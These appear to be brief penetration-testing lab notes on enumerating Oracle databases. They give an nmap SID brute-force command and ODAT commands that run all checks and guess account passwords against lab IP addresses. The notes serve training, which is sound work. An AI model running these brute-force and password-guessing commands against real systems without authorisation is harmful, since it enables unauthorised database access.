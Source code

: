 SID - System Identifier - unique particular database instance 

Enumerate SID 
```shell-session
sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute
```

Enumerate user and password details
1. Go to ~/Desktop/tools/odat
2. Activate venv 
```
source odat-venv/bin/activate
```
3. Run script
```shell-session
python3 odat.py all -s 10.129.152.189
```

```
python3 odat.py passwordguesser -s 10.129.152.189  --d XE --accounts-file accounts/accounts.txt
```
Might be faster to use the TCP VPN when using odat